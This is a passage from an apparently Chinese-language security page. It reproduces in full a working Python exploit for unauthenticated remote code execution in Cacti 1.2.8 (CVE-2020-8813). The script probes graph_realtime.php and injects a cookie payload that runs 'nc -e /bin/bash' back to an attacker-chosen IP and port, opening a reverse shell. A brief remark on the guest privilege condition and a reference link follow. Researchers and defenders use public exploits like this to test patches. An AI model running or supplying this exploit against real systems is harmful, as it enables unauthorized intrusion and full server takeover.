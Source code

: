     # Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 4:
        print("[~] Usage : ./Cacti-exploit.py url ip port")
        exit()
     
    url = sys.argv[1]
    ip = sys.argv[2]
    port = sys.argv[3]
     
    def send_exploit(url):
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        path = url+"/graph_realtime.php?action=init"
        req = requests.get(path)
        if req.status_code == 200 and "poller_realtime.php" in req.text:
            print("[+] File Found and Guest is enabled!")
            print("[+] Sending malicous request, check your nc ;)")
            requests.get(path, cookies=cookies)
        else:
            print("[+] Error while requesting the file!")
     
    send_exploit(url)

image

如我们所见，如果启用了" Gest Realtime
Graphs"特权，我们也可以毫无问题地利用它，因此最好检查"
graph\_realtime.php"文件是否具有此访问特权。

参考链接
--------

> https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/
